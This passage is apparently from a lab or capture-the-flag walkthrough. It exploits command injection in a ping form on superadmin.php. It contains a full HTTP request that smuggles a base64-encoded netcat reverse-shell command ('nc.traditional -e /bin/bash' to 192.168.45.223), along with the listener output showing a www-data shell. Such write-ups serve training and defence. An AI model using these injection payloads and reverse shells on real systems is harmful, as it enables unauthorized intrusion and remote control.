 ```http
<form method="post" action="">
<input type="text" placeholder="Enter an IP to ping" name="pinger">
<br>
<input type="submit" name="submitt">
</form>

<pre>total 13M
4.0K drwxr-xr-x  2 root root 4.0K Jan 27  2020 .
4.0K drwxr-xr-x 24 root root 4.0K Mar 14  2020 ..
1.1M -rwxr-xr-x  1 root root 1.1M Jun  7  2019 bash
...
 36K -rwxr-xr-x  1 root root  35K May 14  2018 nc.openbsd
 32K -rwxr-xr-x  1 root root  31K Apr 14  2017 nc.traditional
...
```

> There seems to be a so called traditional `netcat` . This might imply that `-e` parameter is available in this version.
{: .prompt-info }

New request to trigger the reverse shell
payload: `nc.traditional -e /bin/bash 192.168.45.223 80`
```http
POST /superadmin.php HTTP/1.1
Host: 192.168.192.15
Content-Length: 120
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.192.15
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.192.15/superadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

pinger=127|`echo%20%22bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDUuMjIzIDgwCg==%22%20|base64%20-d`&submitt=Submit
```

Catch connection from target
```bash
$ nc -lvp 80                                                  
listening on [any] 80 ...
192.168.192.15: inverse host lookup failed: Unknown host
connect to [192.168.45.223] from (UNKNOWN) [192.168.192.15] 48528
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
